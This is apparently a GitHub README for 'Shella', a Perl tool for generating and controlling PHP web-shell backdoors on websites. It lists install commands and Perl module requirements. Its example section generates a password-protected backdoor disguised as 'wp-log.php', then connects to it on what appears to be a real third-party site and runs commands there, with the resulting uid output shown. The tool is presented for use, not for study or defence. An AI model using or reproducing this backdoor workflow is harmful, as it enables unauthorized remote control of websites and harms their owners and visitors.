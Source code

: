 
## Shella | Simple Backdoor Manager with Perl

![Screenshoot](Screenshot_20250730-063507-picsay.png)
<br>
Shella is a simple tool that is written using Perl, which functions to remote a website
<br>
### Instalation :

$ git clone https://github.com/meico-wq/Shella<br>
$ cd Shella <br>
$ perl shell.pl <br>

### Requirements :

<pre>
cpan install Config::IniFiles
cpan install LWP::UserAgent
cpan install IO::Prompt
</pre>

### Example :
<pre>

perl shell.pl -g wp-log -p mei1337
  
Perl shell | ./meicookies
Generate :
[+] ./shell.pl -g "nama_shell" -p "password"
Connect Server :
[+] ./shell.pl -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password mei1337

meicookies@heker:~/Tools$ perl shell.pl -u "https://www.pamz3d.com/wp-log.php" -p mei1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>
